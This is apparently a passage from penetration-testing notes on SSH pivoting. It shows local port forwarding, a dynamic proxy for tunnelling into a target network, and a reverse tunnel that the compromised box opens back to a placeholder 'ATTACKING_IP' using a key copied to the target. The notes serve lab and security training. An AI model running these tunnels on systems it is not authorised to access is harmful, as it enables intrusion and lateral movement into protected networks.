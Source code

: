 ```console
# -L denotes a link to a local port
# E.g., if we have access to 172.16.0.5 and there is a webserver running
# on 172.16.0.10, we can create a link to 172.16.0.10
$ ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

From the above, command, we can then access the website on `172.16.0.10` (through `172.16.0.5`) by navigating to port `8000` on our machine. The `-f` option backgrounds the shell and `-N` tells SSH not to execute any commands, just to set up the connection.

Another way is via **proxies**:

```console
# Opens up port 1337 on attacker machine as a proxy to send data through 
# the protected network
$ ssh -D 1337 user@172.16.0.5 -fN
```

As above, the port (in this case `1337`) needs to be setup within the proxychains configuration file in order to route all of the traffic into the target network.

###### Reverse Connection

**Reverse connections** are also easily configured via SSH, although can be risky as you inherently must access your attacking machine **from** the target.  To do this, follow the steps below:

```console
# 1) generate set of SSH keys
$ ssh-keygen

# 2) copy contents of public key (.pub) and edit ~/.ssh/authorized_keys
#    on attacker machine
# 3) enter the following, and paste in the public key

command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty

# 4) start the SSH service on attacker machine
$ sudo systemctl start ssh

# 5) transfer the private key to the target box

# 6) connect back with reverse port forward
$ ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

# (optional)
# it can be possible to create a reverse proxy in newer SSH client versions
$ ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To close any connections, type:

```console
$ ps aux | grep ssh
```
